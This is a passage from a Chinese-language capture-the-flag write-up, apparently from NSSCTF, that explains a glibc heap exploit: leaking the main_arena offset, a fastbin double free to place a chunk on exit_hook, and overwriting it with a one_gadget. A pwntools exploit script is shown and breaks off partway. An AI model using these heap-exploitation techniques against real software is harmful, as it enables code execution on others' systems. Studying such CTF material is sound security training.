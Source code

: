    ida分析libc文件，找到main_arena的偏移，gdb调试找到分配的heap地址，计算两者之间的偏移即可（但是远程和本地的偏移不一样 ~-__-~）：

   ![image-20240730212515266](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407302125398.png)

2. 利用fastbin进行double free，实现任意地址分配chunk，分配到exit_hook的位置：

   ```py
   # 利用fastbin的double free 实现任意地址申请chunk
   free(7)
   free(8)
   free(7)
   for i in range(7):
       add(9,b"a")
   
   # 申请到exit_hook 填入one_gadget
   exit_hook_addr = libc_base + (0x7ffff7e1a6c8-0x7ffff7c00008)
   exit_hook_addr = libc_base + (0x21a6c0)
   success("exit_hook_addr==>"+hex(exit_hook_addr))
   ```

   直接ida分析libc文件，查exit_hook的偏移：

   ![image-20240730212815006](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407302128099.png)

3. 最后用one_gadget覆盖掉即可，完整EXP：

   ```py
   from pwn import *
   # from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
   
   # p = remote("node4.anna.nssctf.cn",28122)
   p = process("./pwn") 
   libc = ELF('./libc.so.6')
   elf = ELF("./pwn")
   
   
   def add(index,content):
       p.sendlineafter(b':','1')
       p.sendlineafter(b':',str(index).encode())
       p.sendafter(b':',content)
   
   # def edit(index,content):
   #     p.sendlineafter(b':',b'4')
   #     p.sendlineafter(b':',str(index).encode())
   #     p.sendlineafter(b':',str(len(content)).encode())
   #     p.sendafter(b':',content)
   
   def show(index):
       p.sendlineafter(b':',b'3')
       p.sendlineafter(b': ',str(index).encode())
   
   def free(index):
       p.sendlineafter(b':','2')
       p.sendlineafter(b': ',str(index).encode())
   
   def fd_glibc32(tcache_base,target_addr):
       success("fake_addr==>"+hex(target_addr))
       payload = p64(tcache_base^(target_addr))
       return payload
   
   # 泄漏堆地址 ==> 改tcache 泄漏libc地址 
   ```